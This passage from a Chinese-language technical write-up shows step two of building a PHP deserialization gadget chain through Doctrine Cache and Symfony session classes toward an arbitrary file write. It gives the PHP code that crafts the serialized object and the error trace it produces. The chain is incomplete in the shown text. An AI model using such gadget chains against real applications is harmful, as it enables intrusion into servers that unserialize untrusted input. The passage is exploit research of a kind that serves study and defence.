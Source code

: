 ## 第二步，写入文件

这个 POP 链的第一个目标是在文件系统上写入一个文件。为此，需要调用 `MockFileSessionStorage` 的 `save` 函数，然后在 `CacheAdapter` 对象的 `cache` 属性上调用 `save` 方法。在文件中定义之后，现在需要从 `MockFileSessionStorage` 中获取一个异常。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;

$obj = new CacheAdapter();
$obj->cache = new MockFileSessionStorage();
$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught RuntimeException: Trying to save a session that was not started yet or was already closed. in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php:79
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(235): Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage->save(0, 'test', 99999998326133680)
#1 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#2 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#3 {main}
  thrown in /tmp/vendor/symfony/http-foundation/Session/Storage/MockFileSessionStorage.php on line 79
```
